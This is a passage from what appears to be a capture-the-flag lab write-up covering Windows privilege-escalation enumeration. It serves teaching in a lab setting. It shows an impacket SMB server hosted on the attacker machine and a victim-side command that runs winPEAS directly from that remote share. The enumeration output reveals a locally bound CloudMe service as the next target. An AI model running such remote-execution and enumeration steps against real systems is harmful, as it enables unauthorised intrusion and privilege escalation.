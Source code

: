 ```console
PS C:\Users\shaun\Downloads> ls
ls


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```

Again I am going to run winpeas without transferring it to the victim.

On host

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

On victim

```console
PS C:\users\shaun\Downloads> \\10.10.16.16\rogue\winPEASx64.exe
```
Linpeas shows the running processes and also tells us that the CloudMe service is being ran on localhost port 8888

```console
����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                               
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               135           0.0.0.0               0               Listening         952             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               5040          0.0.0.0               0               Listening         5816            svchost
  TCP        0.0.0.0               7680          0.0.0.0               0               Listening         1072            svchost
  TCP        0.0.0.0               8080          0.0.0.0               0               Listening         8596            C:\xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         516             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1044            svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1580            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         2252            spoolsv
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         668             services
  TCP        0.0.0.0               49669         0.0.0.0               0               Listening         688             lsass
```